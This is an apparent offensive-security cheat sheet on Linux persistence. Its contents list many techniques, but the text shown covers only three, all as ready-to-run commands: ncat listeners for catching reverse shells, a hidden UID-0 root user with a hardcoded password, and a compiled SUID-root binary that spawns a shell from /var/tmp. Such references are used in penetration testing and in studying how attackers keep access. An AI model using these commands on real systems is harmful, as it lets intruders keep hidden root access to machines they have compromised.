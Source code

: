 # Linux - Persistence

## Summary

* [Basic Reverse Shell](#basic-reverse-shell)
* [Add a Root User](#add-a-root-user)
* [SUID Binary](#suid-binary)
* [Crontab](#crontab)
* [Bash Configuration File](#bash-configuration-file)
* [Startup Service](#startup-service)
* [Systemd User Service](#systemd-user-service)
* [Systemd Timer File](#systemd-timer-file)
* [Message of the Day](#message-of-the-day)
* [User Startup File](#user-startup-file)
* [Udev Rule](#udev-rule)
* [APT Configuration](#apt-configuration)
* [SSH Configuration](#ssh-configuration)
* [Git Configuration](#git-configuration)
    * [Git Configuration Variables](#git-configuration-variables)
    * [Git Hooks](#git-hooks)
* [Additional Linux Persistence Options](#additional-persistence-options)
* [References](#references)

## Basic Reverse Shell

```bash
ncat --udp -lvp 4242
ncat --sctp -lvp 4242
ncat --tcp -lvp 4242
```

## Add a Root User

```powershell
sudo useradd -ou 0 -g 0 john
sudo passwd john
echo "linuxpassword" | passwd --stdin john
```

## SUID Binary

```powershell
TMPDIR2="/var/tmp"
echo 'int main(void){setresuid(0, 0, 0);system("/bin/sh");}' > $TMPDIR2/croissant.c
gcc $TMPDIR2/croissant.c -o $TMPDIR2/croissant 2>/dev/null
rm $TMPDIR2/croissant.c
chown root:root $TMPDIR2/croissant
chmod 4777 $TMPDIR2/croissant
```
